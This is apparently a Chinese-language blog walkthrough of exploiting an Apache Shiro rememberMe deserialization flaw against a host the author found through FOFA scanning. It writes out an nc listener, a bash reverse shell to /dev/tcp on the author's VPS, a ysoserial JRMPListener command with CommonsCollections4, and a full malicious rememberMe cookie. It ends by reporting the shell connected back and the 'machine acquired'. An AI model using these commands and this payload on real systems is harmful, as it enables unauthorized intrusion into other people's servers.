










玄魂工作室大佬的文章
https://mp.weixin.qq.com/s/8F5tmbJsE0SshrYK-fRl-g
首先FOFA找一个环境，检测工具检测一下

发现目标，开干!
开启监听
首先在vps运行nc 监听一个端口
1 | nc -lvp 666 |

列出需要使用的反弹指令
1 | bash -i >& /dev/tcp/129.204.xxx.xxx/666 0>&1 |
将指令放到http://www.jackson-t.ca/runtime-exec-payloads.html转换成加密后的指令
将指令合成为一个java的监听指令
1 | java -cp ysoserial.jar ysoserial.exploit.JRMPListener 6666 CommonsCollections4 '加密后的指令' |
运行以下指令开启java一个监听端口
嗯。。。出错了

难受，我又重新安装了mvn，然后打包的ysoserial.jar
mvn安装：https://jingyan.baidu.com/article/d2b1d102b9dd855c7e37d486.html
打包命令：
1 | mvn clean package -DskipTests |

还是出错！
最后才知道因为jdk版本的问题，只能用1.8
1 | 安装jdk1.8 |
然后再运行就好了

利用poc生成cookie

我不是一个合格的网安人员。。
1 | python2 -m pip install pycryptodome |
安装这个库就可以了。
然后进入这个库的目录：Lib\site-packages
找到 crypto 这个库，更改为首字母大写 Crypto 即可

得到cookie
1 | rememberMe=3Wb6O2eQTCeimDMS1uEUQANKouApX2EvmE7yZfXgnZWN+pxrZ4jH+CTcjRPRyuMXFt1NbRzH+IZhT7yoiK87ptD2HcSqqGKw50bEeDWdKPV7UDix82FQx5SQpYpVipyXk6LNO/BMFtMzvEsdjB6b9hMsHqz8/WVPWtT6V3J1Iq8oXm1MBfLSe7y8zd4BtM1vru+FyUSVdkw5Bv2pkB7o0LrUkhtbM58PVlxFgMBtU2nE0fvClfeX5ay0WINJjeGC8KQzMP0SFsWnnAwcJG513sPd796ppfEI8+esJ57yfRpiPXmlz9ZFMx66tvsVU9Enq1dCXOLNQPWkz+uLf5VDOO80nV6R0f+7+EXY/egY7w+hWNKJwDngKXvuyINGhhOVOrEzneSfCtvD8tOadPcU7A== |
抓包进行发送
)
弹回来了。


机器到手，溜了溜了。。。
小记
crontab从文件导入和导出到文件
1 | #导入 |